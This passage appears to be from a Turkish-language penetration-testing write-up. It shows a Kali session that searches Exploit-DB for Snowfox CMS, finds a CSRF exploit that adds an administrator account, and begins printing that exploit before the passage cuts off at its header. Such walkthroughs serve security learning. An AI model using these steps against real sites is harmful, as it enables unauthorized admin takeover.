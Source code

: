     <img src="dosyalar/dns_ok.PNG" style="width:100%;">
</div>

Bu sefer zafiyet taramısını lokalimde yapmak istedim.
```sh
root@kali:~# searchsploit snowfox cms
---------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                  |  Path
                                                                | (/usr/share/exploitdb/)
---------------------------------------------------------------- ----------------------------------------
Snowfox CMS 1.0 - Cross-Site Request Forgery (Add Admin)        | exploits/php/webapps/35301.html
---------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
```sh
root@kali:~# cat /usr/share/exploitdb/exploits/php/webapps/35301.html
```
```html
<!--

Snowfox CMS v1.0 CSRF Add Admin Exploit

```